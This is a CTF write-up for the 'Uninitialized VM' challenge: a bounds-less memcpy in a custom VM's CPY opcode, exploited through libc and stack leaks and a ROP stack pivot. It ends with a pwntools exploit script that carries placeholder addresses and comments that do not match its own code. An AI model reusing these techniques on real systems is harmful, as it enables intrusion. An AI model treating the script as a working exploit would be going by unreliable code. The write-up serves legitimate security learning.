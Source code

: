 +++
title = "Uninitialized VM"
date = 2025-07-08
authors = ["Thirukailash"] 
+++

**Description**

Just cooked up a simple VM, forgot to check for bugs tho.

## **Files provided**

    vm_chall
    Dockerfile
    libc.so.6
    ld-linux-x86-64.so.2
    flag.txt

## Vulnerability

- `CPY` opcode uses `memcpy()` with attacker-controlled size and indices.
- No bounds checks → memory corruption.
- Can copy data *into and out of* the VM stack and manipulate key structures.

---

## Key Opcodes for exploit

| Opcode   | Meaning             |
|----------|---------------------|
| `0x36`   | `CPY` (vuln here)   |
| `0x31`   | `PUSH`              |
| `0x32`   | `PUSH_R`            |
| `0x33`   | `POP_R`             |
| `0x35`   | `MOV_R_X`           |
| `0x44`   | `SUB`               |
| `0x43`   | `ADD`               |

---

## Exploit summary

The vulnerability lies in a broken VM instruction: **`CPY`**, which uses `memcpy()` without bounds checking. This gives us **out-of-bounds memory read/write** from within the VM.

---

### Step 1: Copy `regs` Struct to VM Stack

- Use the vulnerable `CPY` instruction to copy the `regs` struct onto the VM's stack.
- Modify register values (`sp`, `bp`, `pc`, etc.) using VM instructions like `ADD`, `SUB`, `MOV`, etc.
- These modifications are possible because the VM allows arithmetic on its stack contents.

---

### Step 2: Regain Control Over VM Stack

- After editing the copied `regs`, copy it back into its original location using `CPY`.
- This gives full control over the VM’s:
  - **Stack pointer (`sp`)**
  - **Base pointer (`bp`)**
  - **Program counter (`pc`)**
- Now we can use VM opcodes like `PUSH`, `POP`, and `CPY` to read/write arbitrary memory.

---

### Step 3: Leak libc via Heap Metadata

- The `expand()` function frees the old memory chunks and reallocates them.
- Freed chunks leave **unsorted bin metadata** (heap freelist pointers) in memory.
- Use VM stack read to extract those pointers → gives a **libc leak**.

---

### Step 4: Leak Stack Address via `environ`

- Use leaked libc base to compute the address of `environ`.
- `environ` holds a pointer to the actual stack top.
- Copy `environ` to the VM stack, then use `POP_R` to load it into a VM register.

---

### Step 5: Stack Pivot + Return Address Overwrite

Now that we know the real stack address:

- Set the VM stack to overlap the **main() function’s stack frame**.
- Push a **ROP chain** onto the return address using the VM’s `PUSH` opcode.
- When execution returns from main, it hits our payload.

---

## Final Exploit Script

The following Python script uses `pwntools` to exploit the Uninitialized VM by triggering an out-of-bounds `memcpy`, leaking `libc` and `stack`, and hijacking control flow.

```python
#!/usr/bin/env python3
from pwn import *

context.binary = ELF("./vm_chall")
libc = ELF("./libc.so.6")
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "debug"

# Start the target process or connect remotely
def launch():
    if args.REMOTE:
        return remote("host", 1337)  # Replace with actual host/port
    elif args.GDB:
        return gdb.debug("./vm_chall", gdbscript="""
            break *main+1695
            continue
        """)
    else:
        return process("./vm_chall")

# Short helpers to emit bytecode for each instruction
def b(x): return p8(x)
def reg(r): return b(r & 7)

def op_push_imm(val): return b(0x35) + reg(0) + p64(val)
def op_push(val): return b(0x31) + b(val)
def op_push_r(r): return b(0x32) + reg(r)
def op_pop_r(r): return b(0x33) + reg(r)
def op_mov(dst, src): return b(0x34) + reg(dst) + reg(src)
def op_cpy(dst_r, src_r, size): return b(0x36) + reg(dst_r) + reg(src_r) + b(size) + b(0) * 2  # pad to skip PC += 3
def op_add(r1, r2): return b(0x43) + reg(r1) + reg(r2)
def op_and(r1, r2): return b(0x38) + reg(r1) + reg(r2)
def op_not(r): return b(0x40) + reg(r)
def op_jmp(offset): return b(0x45) + b(offset)

# Construct the payload
def build_payload():
    payload = b''

    # Step 1: Fill stack space to operate on
    for _ in range(16):
        payload += op_push(0x00)

    # Step 2: Copy `regs` struct to VM stack 
    payload += op_push_imm(0xef)
    payload += op_push_imm(0xff)
    payload += op_mov(0, 0)     # r0 = 0xef
    payload += op_mov(1, 1)     # r1 = 0xff
    payload += op_cpy(0, 1, 0x80)

    # Step 3: Prepare modified `regs` on stack (e.g., set new PC/sp/bp)
    payload += op_pop_r(3)      # Assume r3 = heap libc ptr
    payload += op_pop_r(4)      # r4 = PC
    payload += op_push_imm(0x12345678)  # Replace with address of environ or main stack
    payload += op_pop_r(5)      # r5 = stack base
    payload += op_push_imm(0xffffffffffffffff)
    payload += op_pop_r(6)      # r6 = end marker
    payload += op_cpy(1, 0, 0x80)  # Copy back regs

    # Step 4: Stack pivot → target real stack
    payload += op_push_imm(0xdeadbeefcafebabe)  # one_gadget or ret address
    for _ in range(3):
        payload += op_push(0x00)

    return payload

# Main
io = launch()

# Initial VM prompt sequence
for _ in range(2):
    io.sendlineafter(b"[ lEn? ] >> ", b"1")
    io.sendlineafter(b"[ BYTECODE ] >>", b"a")

# Final exploit payload
bytecode = build_payload()
assert len(bytecode) < 256

io.sendlineafter(b"[ lEn? ] >> ", str(len(bytecode)).encode())
io.sendlineafter(b"[ BYTECODE ] >>", bytecode)
io.interactive()

``````

 This challenge was a great learning experience. I gained a deeper understanding of custom VM environments, memory layout manipulation, and struct-based exploitation. Thanks to the bi0sCTF team for such an excellent problem.
